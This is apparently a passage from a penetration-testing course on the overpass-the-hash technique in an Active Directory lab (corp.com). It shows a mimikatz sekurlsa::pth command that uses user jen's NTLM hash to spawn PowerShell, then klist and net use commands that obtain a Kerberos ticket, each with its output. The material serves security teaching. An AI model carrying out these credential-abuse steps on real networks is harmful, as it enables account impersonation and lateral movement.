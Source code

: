 ```
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell 
user    : jen
domain  : corp.com
program : powershell
impers. : no
NTLM    : 369def79d8372408bf6e93364cc93075
  |  PID  8716
  |  TID  8348
  |  LSA Process is now R/W
  |  LUID 0 ; 16534348 (00000000:00fc4b4c)
  \_ msv1_0   - data copy @ 000001F3D5C69330 : OK !
  \_ kerberos - data copy @ 000001F3D5D366C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F3D5C63B68 (32) -> null
```

> Listing 18 - Creating a process with a different user's NTLM password hash

At this point, we have a new PowerShell session that allows us to execute commands as *jen*.

At this point, running the *whoami* command on the newly created PowerShell session would show *jeff*'s identity instead of *jen*. While this could be confusing, this is the intended behavior of the *whoami* utility which only checks the current process's token and does not inspect any imported Kerberos tickets

Let's list the cached Kerberos tickets with **klist**.

```
PS C:\Windows\system32> klist

Current LogonId is 0:0x1583ae

Cached Tickets: (0)
```

> Listing 19 - Listing Kerberos tickets

No Kerberos tickets have been cached, but this is expected since *jen* has not yet performed an interactive login. Let's generate a TGT by authenticating to a network share on the files04 server with **net use**.

```
PS C:\Windows\system32> net use \\files04
The command completed successfully.
```

> Listing 20 - Mapping a network share on a remote server

The output indicates that the **net use** command was successful.
